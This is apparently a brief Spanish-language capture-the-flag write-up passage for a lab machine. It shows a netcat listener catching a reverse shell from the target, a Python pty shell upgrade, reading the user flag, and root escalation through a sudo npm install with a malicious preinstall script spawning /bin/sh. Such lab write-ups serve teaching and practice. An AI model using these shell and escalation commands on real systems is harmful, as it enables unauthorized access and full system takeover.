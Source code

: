 
- Tratamiento bash

~~~CSS
python3 -c 'import pty; pty.spawn("/bin/bash")'
~~~

~~~CSS
└─# nc -nlvp 4444      
listening on [any] 4444 ...
connect to [10.9.1.216] from (UNKNOWN) [10.10.18.3] 50334
Connected!
ls
index.html
node_modules
package.json
package-lock.json
server.js

~~~

- Bandera de usuario
~~~CSS
dylan@jason:~$ cat user.txt
cat user.txt
0ba48780dee9f5677a4461f588af217c
~~~

- Root
  
~~~CSS
dylan@jason:~$ TF=$(mktemp -d)
TF=$(mktemp -d)
dylan@jason:~$ echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
<ts": {"preinstall": "/bin/sh"}}' > $TF/package.json
dylan@jason:~$ sudo npm -C $TF --unsafe-perm i
sudo npm -C $TF --unsafe-perm i

> @ preinstall /tmp/tmp.MiK3EuLmYF
> /bin/sh

# whoami
whoami
root
~~~